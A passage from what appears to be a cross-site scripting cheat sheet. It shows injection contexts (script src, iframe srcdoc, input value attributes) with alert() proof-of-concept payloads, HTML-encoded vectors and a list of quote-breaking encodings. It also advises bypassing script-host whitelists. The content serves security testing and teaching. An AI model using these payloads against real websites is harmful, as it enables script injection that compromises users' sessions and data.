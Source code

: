 The exploitation is easy since we can take advantage of **HTML encodings**

```html
');alert(origin);// -> &#39;);alert(origin);// 
```

### inside `src` Attribute

Code example:

```html
<script src="$input">
```

Try to use remote JS, it the host is **whitelisted**, try to **bypass**

### Inside `srcdoc` Attribute

```html
<iframe srcdoc="$input">
```

The exploitation is easy since we can take advantage of **HTML encodings**

```html
&lt;svg/onload=alert()&gt;
```

### Generic Attribute

Code example:

```html
<input type="text" value="$input">
<input type="text" value='$input'>
<input type="text" value=$input>
```

You should break the context, if there is no context, there is no need to break. Some methods:

```html
"
%22
%2522
&quot;
%26quot;
%2526qout;
'
%27
%2527
&#39;
%26%2339;
%2526%252339;
```

If you succeed, try to use **1. Event Handlers** of close the **2. HTML tag.**

### JavaScript Context
